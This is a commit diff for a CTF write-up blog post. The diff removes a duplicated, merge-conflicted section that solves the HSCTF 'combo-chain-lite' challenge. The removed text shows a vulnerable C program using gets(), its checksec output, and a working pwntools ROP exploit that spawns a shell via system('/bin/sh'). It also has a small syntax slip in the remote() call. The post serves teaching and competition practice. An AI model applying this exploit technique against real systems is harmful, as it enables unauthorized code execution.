

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4641 px. Shown: the whole window at 89% size, without its empty margins (107-1172 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fixed combo-chain lite

````diff
--- a/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
+++ b/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
@@ -252,103 +252,6 @@
 <a href="{{ page.url }}#title">Back to top ↑</a>
 
 ### Challenge
-<<<<<<< HEAD
-
->Written by: Ptomerty
->
->Training wheels!
->
->Hint: What's a ROP?
->
->`nc pwn.hsctf.com 3131`
-
-The challenge archive contains the following files.
-```
-combo-chain-lite
-combo-chain-lite.c
-```
-
-### Solution
-
-We are given the combo-chain-lite.c source file.
-```c
-  1 #include <stdlib.h>
-  2 #include <string.h>
-  3 #include <stdio.h>
-  4
-  5 void vuln() {
-  6     char dest[8];
-  7     printf("Here's your free computer: %p\n", system);
-  8     printf("Dude you hear about that new game called /bin/sh");
-  9     printf("? Enter the right combo for some COMBO CARNAGE!: ");
- 10     gets(dest);
- 11 }
- 12
- 13 int main() {
- 14     setbuf(stdout, NULL);
- 15     gid_t gid = getegid();
- 16     setresgid(gid,gid,gid);
- 17     vuln();
- 18     return 0;
- 19 }
-```
-
-Very obvious buffer overflow in the vuln() function. The challenge also tells us we have to do a ROP chain to solve this.
-
-Run a quick checksec on the binary.
-```shell
-» checksec ./combo-chain-lite
-[*] '/root/Documents/hsctf-6/pwn/combo-chain-lite/bin/combo-chain-lite'
-    Arch:     amd64-64-little
-    RELRO:    Partial RELRO
-    Stack:    No canary found
-    NX:       NX enabled
-    PIE:      No PIE (0x400000)
-```
-
-This is a very easy ROP challenge. If you are unfamiliar with how ROP works, you can learn more about it from my writeups of the ROP Emporium challenges [here](https://syedfarazabrar.com/writeups/rop-emporium/2019/07/19/rop-emporium-challenges.html){:target="blank"}, specifically split64, although you may have to read the previous writeups if you are very new to binary exploitation.
-
-The exploit is shown below. system's address is given to us every run, and since the /bin/sh address is hardcoded in the binary, we can just get it out of the binary.
-```python
-  1 #!/usr/bin/env python
-  2
-  3 from pwn import *
-  4
-  5 context.log_level = 'critical'
-  6 elf = ELF("./combo-chain-lite")
-  7 sh = remote("pwn.hsctf.com" 3131)
-  8 a = sh.recvline()
-  9
- 10 system_addr = p64(int(a.split(": ")[1], 16))
- 11 binsh_gen = elf.search("/bin/sh") # Creates a generator object
- 12 binsh_addr = p64(next(binsh_gen)) # Gets the next address of /bin/sh
- 13 pop_rdi = p64(0x0000000000401273)
- 14
- 15 payload = "A"*16 # Overflow until RIP
- 16 payload += pop_rdi # Jump to the pop rdi; ret; gadget
- 17 payload += binsh_addr # Pop this into rdi
- 18 payload += system_addr # Jump to system('/bin/sh')
- 19
- 20 sh.recvuntil(": ")
- 21 sh.sendline(payload)
- 22 sh.interactive()
- 23
- 24 sh.close()
-```
-
-We get a shell.
-```shell
-» python exploit.py
-$ ls
-combo-chain-lite  combo-chain-lite.c  exploit.py  flag
-$ cat flag
-hsctf{wheeeeeee_that_was_fun}
-$
-```
-
-Flag: `hsctf{wheeeeeee_that_was_fun}`
-=======
->>>>>>> master
 
 >Written by: Ptomerty
 >
````
